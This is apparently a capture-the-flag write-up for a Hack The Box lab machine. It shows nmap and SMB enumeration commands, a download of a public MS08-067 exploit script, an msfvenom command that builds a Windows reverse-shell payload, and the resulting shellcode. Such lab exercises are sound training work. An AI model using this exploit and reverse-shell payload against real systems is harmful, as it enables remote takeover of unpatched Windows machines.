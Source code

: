 https://app.hackthebox.com/machines/2

![[Pasted image 20231105122329.png]]
![[Pasted image 20231105122402.png]]
![[Pasted image 20231105122437.png]]

```
sudo nmap -p- --open -Pn 10.129.48.82 -oN enum/ports.nmap
```

![[Pasted image 20231105122713.png]]

```
sudo nmap -p135,139,445 -sCV -Pn 10.129.48.82 -oN enum/135-139-445-services.nmap
```

![[Pasted image 20231105123139.png]]

```
smbclient -L \\\\10.129.48.82\\
```

![[Pasted image 20231105123436.png]]

```
sudo nmap -p- -sT -sV -A 10.129.48.82
```

![[Pasted image 20231105142128.png]]

```
 sudo nmap -O -Pn 10.129.48.82 -oN enum/OS.nmap
```

![[Pasted image 20231105160635.png]]

```
sudo nmap --script=smb-os-discovery -Pn 10.129.48.82
```

![[Pasted image 20231105161223.png]]

```
wget -c https://raw.githubusercontent.com/andyacer/ms08_067/master/ms08_067_2018.py
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.48.82 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

![[Pasted image 20231105161736.png]]

```
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\xc0\x15\xb5\xc6\x83\xee\xfc\xe2\xf4\x3c\xfd\x37\xc6"
"\xc0\x15\xd5\x4f\x25\x24\x75\xa2\x4b\x45\x85\x4d\x92\x19"
"\x3e\x94\xd4\x9e\xc7\xee\xcf\xa2\xff\xe0\xf1\xea\x19\xfa"
"\xa1\x69\xb7\xea\xe0\xd4\x7a\xcb\xc1\xd2\x57\x34\x92\x42"
"\x3e\x94\xd0\x9e\xff\xfa\x4b\x59\xa4\xbe\x23\x5d\xb4\x17"
"\x91\x9e\xec\xe6\xc1\xc6\x3e\x8f\xd8\xf6\x8f\x8f\x4b\x21"
"\x3e\xc7\x16\x24\x4a\x6a\x01\xda\xb8\xc7\x07\x2d\x55\xb3"
"\x36\x16\xc8\x3e\xfb\x68\x91\xb3\x24\x4d\x3e\x9e\xe4\x14"
"\x66\xa0\x4b\x19\xfe\x4d\x98\x09\xb4\x15\x4b\x11\x3e\xc7"
"\x10\x9c\xf1\xe2\xe4\x4e\xee\xa7\x99\x4f\xe4\x39\x20\x4a"
"\xea\x9c\x4b\x07\x5e\x4b\x9d\x7d\x86\xf4\xc0\x15\xdd\xb1"
"\xb3\x27\xea\x92\xa8\x59\xc2\xe0\xc7\xea\x60\x7e\x50\x14"
"\xb5\xc6\xe9\xd1\xe1\x96\xa8\x3c\x35\xad\xc0\xea\x60\x96"
"\x90\x45\xe5\x86\x90\x55\xe5\xae\x2a\x1a\x6a\x26\x3f\xc0"
"\x22\xac\xc5\x7d\xbf\x47\xf0\x47\xdd\xc4\xc0\x14\x0e\x4f"
"\x26\x7f\xa5\x90\x97\x7d\x2c\x63\xb4\x74\x4a\x13\x45\xd5"
"\xc1\xca\x3f\x5b\xbd\xb3\x2c\x7d\x45\x73\x62\x43\x4a\x13"
"\xa8\x76\xd8\xa2\xc0\x9c\x56\x91\x97\x42\x84\x30\xaa\x07"
"\xec\x90\x22\xe8\xd3\x01\x84\x31\x89\xc7\xc1\x98\xf1\xe2"
"\xd0\xd3\xb5\x82\x94\x45\xe3\x90\x96\x53\xe3\x88\x96\x43"
"\xe6\x90\xa8\x6c\x79\xf9\x46\xea\x60\x4f\x20\x5b\xe3\x80"
"\x3f\x25\xdd\xce\x47\x08\xd5\x39\x15\xae\x55\xdb\xea\x1f"
"\xdd\x60\x55\xa8\x28\x39\x15\x29\xb3\xba\xca\x95\x4e\x26"
"\xb5\x10\x0e\x81\xd3\x67\xda\xac\xc0\x46\x4a\x13"
```

